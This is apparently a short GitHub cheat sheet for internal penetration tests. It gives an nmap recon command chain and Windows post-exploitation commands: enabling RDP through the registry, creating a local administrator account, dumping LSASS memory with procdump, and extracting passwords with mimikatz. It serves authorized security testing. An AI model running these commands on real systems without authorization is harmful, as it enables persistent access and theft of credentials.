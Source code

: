 # Internal Pen test cheetsheet

## Recon
1) Use wireshark to listen for 30mins, once completed sift through it and try to identify hosts/interesting things.
2) Get/determine subnets in scope and add them to a file called ips.txt.
3) Run nmap ping scans to determine which hosts are up in the subnet, then full TCP/UDP scan. The below command does it all and saves at every step.
```
nmap --max-rtt-timeout 100ms --initial-rtt-timeout 100ms --max-retries 0 -sn \
-iL ./ips.txt > results_all.txt && cat results_all.txt | grep up -B1 | cut -d " " -f5 | \
grep 10 >> cleaned_ips.txt && nmap --max-rtt-timeout 100ms --initial-rtt-timeout 100ms \ 
--max-retries 0 -sS -sU -sC -sV -O -T4 -p- -v -n -Pn -PS -A --open -iL ./cleaned_ips.txt -oA *CLIENT NAME*
```
4) Now you have all the up hosts, their ports etc, feed the XML into pentest-machine, it'll speed up the enumeration of large subnets.
5) Eliminate low hanging fruit

## Exploitation


## Post-Exploitation


## Useful shit

### Enable RDP from CMD
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

### Create localadmin
```
net user *username* *password* /add
net localgroup administrators *username* /add
net localgroup "Remote Desktop Users" *username* /add
```

### Procdump LSASS for creds
This creates a memory dump using the procdump sysinternals tool. 
#### 32bit
`C:\temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp`
#### 64bit
`C:\temp\procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp`
#### Mimikatz Extaction
```
sekurlsa::minidump lsass.dmp
sekurlsa::passwords full
```
